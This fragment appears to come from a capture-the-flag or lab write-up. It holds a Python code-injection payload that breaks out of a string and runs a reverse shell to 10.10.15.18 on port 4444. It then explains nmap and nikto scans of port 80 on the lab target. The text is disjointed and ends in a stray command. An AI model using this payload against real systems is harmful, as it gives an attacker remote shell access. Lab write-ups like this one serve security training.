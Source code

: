 
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.15.18',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

<!-- Omit 
Next scan is targeted towards port 80 (HTTP)

Both of these scans can scan for vulnerabilities for port 80 (HTTP) web server & discover hidden directories. 
nmap -p 80 --script=http-enum 10.10.11.208
– -p 80: this command instructs Nmap to perform a basic scan on port 80 (-p 80) of the target IP address 10.10.11.208. 
– --script=http-enum: this script is used to enumerate and gather information about directories and files on the web server.
nikto -h 10.10.11.208 

     (Nikto is a widely used open-source web vulnerability scanner that helps identify potential security vulnerabilities and misconfigurations in web servers)

– -h: flag specifies the target hostname or IP address that Nikto will scan.
--->              show modules
